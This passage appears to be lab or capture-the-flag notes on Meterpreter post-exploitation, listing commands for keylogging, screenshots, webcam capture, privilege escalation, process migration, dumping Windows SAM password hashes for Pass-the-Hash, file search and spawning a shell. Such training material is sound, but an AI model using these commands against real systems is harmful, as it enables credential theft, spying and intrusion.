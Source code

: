 ```bash
ifconfig, netstat, route, portfwd, arp
```

### ⚙️ System Commands

```bash
getuid, getpid, ps, kill, clearev, shell, sysinfo, reboot, shutdown
```

### 🧾 Specialized Commands

```bash
screenshot, keyscan_start, keyscan_dump, getsystem, hashdump, webcam_snap
```

> Not all commands will work on every target (e.g., webcam on headless VMs).

---

## Task 4: Post-Exploitation with Meterpreter

### 👤 Checking Access Level
```bash
getuid
# NT AUTHORITY\SYSTEM
```

### 🧮 Viewing Processes
```bash
ps
```

### 🔁 Migrating to New Process
```bash
migrate <PID>
```

Note: Migrating from a SYSTEM process to a lower-privileged one can result in privilege loss.

### 🔐 Credential Dumping
```bash
hashdump
```

- Dumps Windows SAM file
- Stored as NTLM hashes (used for Pass-the-Hash attacks)

### 🗂 File Search
```bash
search -f flag2.txt
```

### 💻 Spawn Native Shell
```bash
shell
```
